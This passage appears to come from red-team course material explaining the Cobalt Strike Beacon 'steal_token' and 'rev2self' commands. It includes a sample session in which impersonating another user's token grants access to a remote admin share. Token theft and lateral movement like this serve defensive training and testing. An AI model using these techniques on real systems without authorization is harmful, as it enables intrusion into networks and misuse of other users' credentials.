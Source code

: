 The `steal_token` command will impersonate the access token of the target process. Like `make_token`, it's good for access resources across a network but not local actions. Use `rev2self` to drop the impersonation. This command opens a handle to the target process in order to duplicate and impersonate the access token, and therefore requires local admin privileges.
```shell
beacon> ls \\srv-2\c$
[-] could not open \\srv-2\c$\*: 5

beacon> steal_token 3320
[+] Impersonated DEV\jking

beacon> ls \\srv-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     12/13/2017 21:00:56   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     02/23/2021 17:08:43   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/17/2021 18:28:36   System Volume Information
          dir     02/17/2021 18:32:08   Users
          dir     02/17/2021 18:28:54   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 256mb    fil     03/04/2021 10:12:52   pagefile.sys

beacon> rev2self
[*] Tasked beacon to revert token
[+] host called home, sent: 20 bytes
```

